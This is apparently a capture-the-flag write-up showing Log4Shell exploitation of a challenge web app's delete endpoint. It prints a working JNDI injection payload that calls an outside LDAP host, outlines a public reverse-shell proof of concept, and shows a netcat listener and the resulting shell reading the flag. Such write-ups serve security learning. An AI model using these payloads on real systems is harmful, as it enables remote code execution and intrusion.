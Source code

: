 The delete api takes an `orderId` and a `comment` and will log them. We can pass a malicious payload through as the comment to inject our own code into the server. First, we can do a basic test to see if this is vulnerable. On https://log4shell.tools/ we can get a test payload, and pass it along into our delete request. I appended the provided payload string from `log4shell.tools` as the `comment` to the delete request:

```http
POST /dashboard/del HTTP/1.1
Host: tenable-logforge.chals.io
...

_csrf=bbe1e234-4fa1-4e13-9a7a-44dedf64e187&orderId=0&comment=${jndi:ldap://c08c85cf-5952-435c-94d1-8ca4b46ace19.dns.log4shell.tools:12345/c08c85cf-5952-435c-94d1-8ca4b46ace19}
```

Right away I could see a log message appear on the log4shell site, `GET request for RCE payload payload received`. Let's escalate this vulnerability to shell access.


I found [this log4j exploit](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py) script on GitHub with an exploit ready to go. Briefly, this script will:
1. Create a compiled java file that creates a reverse shell to your machine
1. Set up a web server to serve that malicious file
1. Set up an LDAP server that directs requests to that web server
1. Create a loggable jndi string to resolve to that LDAP server

Once the exploit was running, I used netcat to listen for the reverse shell connection:

```sh
nc -lvnp 9001
Listening on 0.0.0.0 9001
```

I sent the exploit string as the comment, and received a connection:

```sh
Connection received on 127.0.0.1 33424
ls

app
bin
dev
etc
flag.txt
home
lib
media
mnt
proc
root
run
sbin
srv
sys
tmp
usr
var

cat flag.txt

flag{log4j_1n_th3_l0g_f0rg3}
```
